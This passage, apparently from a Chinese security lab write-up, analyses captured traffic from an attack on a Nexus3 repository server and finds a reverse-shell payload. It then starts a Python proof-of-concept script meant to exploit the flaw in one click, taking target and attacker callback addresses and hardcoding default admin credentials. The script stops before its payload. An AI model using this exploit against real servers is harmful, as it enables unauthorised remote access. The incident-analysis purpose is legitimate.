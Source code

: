 3.按数据包长度排序，发现可疑流量，对其进行http流追踪：

<img src="picture/nexus对可疑流量包进行http追踪流量.png" alt="nexus对可疑流量包进行http追踪流量" style="zoom:25%;" />

4.发现其中包含恶意负载，执行反弹shell命令。

<img src="picture/nexushttp追踪流发现反弹shell的命令执行.png" alt="nexushttp追踪流发现反弹shell的命令执行" style="zoom: 25%;" />

#### 编写POC脚本，一键执行漏洞利用反弹shell

POC脚本 `nexus_poc.py`:

```python
import requests
import json
import subprocess
import threading

# === 用户交互式输入 ===
target_ip = input("请输入目标 Nexus3 IP（例如 192.168.109.4）: ").strip()
target_port = input("请输入目标 Nexus3 端口（例如 60357）: ").strip()
callback_ip = input("请输入本机监听 IP（例如 192.168.109.10）: ").strip()
callback_port = input("请输入本机监听端口（例如 4444）: ").strip()

HOST = f"http://{target_ip}:{target_port}"
CALLBACK_IP = callback_ip
CALLBACK_PORT = callback_port

USERNAME_B64 = "YWRtaW4%3D"  # 用户名admin经过base64+url编码
PASSWORD_B64 = "YWRtaW4xMjM%3D"  # 密码admin123经过base64+url编码

# === 完整 BCEL 字符串（务必为一整行） ===
```